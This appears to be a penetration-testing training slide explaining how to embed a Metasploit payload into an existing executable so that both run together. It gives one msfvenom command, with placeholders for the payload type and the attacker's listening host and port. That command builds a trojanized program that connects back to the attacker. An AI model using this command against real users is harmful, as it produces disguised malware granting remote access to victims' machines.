

# Embedding Payloads in Existing Programs:
This technique embeds a Metasploit payload into an existing application, ensuring that both the payload and the original program run simultaneously.
Command:

msfvenom -x [path_to_existing_exe] -k -p [payload_type] LHOST=[Your_IP] LPORT=[Port_Number] -f exe > output_filename